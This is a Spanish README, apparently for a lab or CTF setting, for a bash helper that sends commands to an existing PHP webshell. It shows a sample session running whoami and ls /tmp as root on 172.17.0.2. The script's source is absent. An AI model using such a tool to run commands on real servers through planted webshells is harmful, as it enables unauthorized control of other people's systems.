 # webshell_navigator.sh

## Instrucciones para Usar el Script


## Dar Permisos de Ejecución al Archivo:

bash
chmod +x webshell_navigator.sh

## Ejecutar el Script:

bash
./webshell_navigator.sh

Interacción con la Webshell:

Cuando ejecutes el script, te pedirá la URL base de la webshell. 

Ejemplo: http://172.17.0.2/shell.php?parameter=

Después, te pedirá que ingreses comandos que quieras ejecutar en la webshell.

La salida de cada comando se mostrará en la terminal.

Para salir del script, puedes ingresar exit o presionar Ctrl+C.

## Ejemplo de Uso

bash
$ ./webshell_navigator.sh

Introduce la URL base de la webshell (ejemplo: http://172.17.0.2/shell.php?parameter=): http://172.17.0.2/shell.php?parameter=

Introduce el comando a ejecutar (o 'exit' para salir): whoami

Salida del comando:

root

Introduce el comando a ejecutar (o 'exit' para salir): ls /tmp

Salida del comando:

file1.txt
file2.txt

Introduce el comando a ejecutar (o 'exit' para salir): exit

[!] Saliendo...
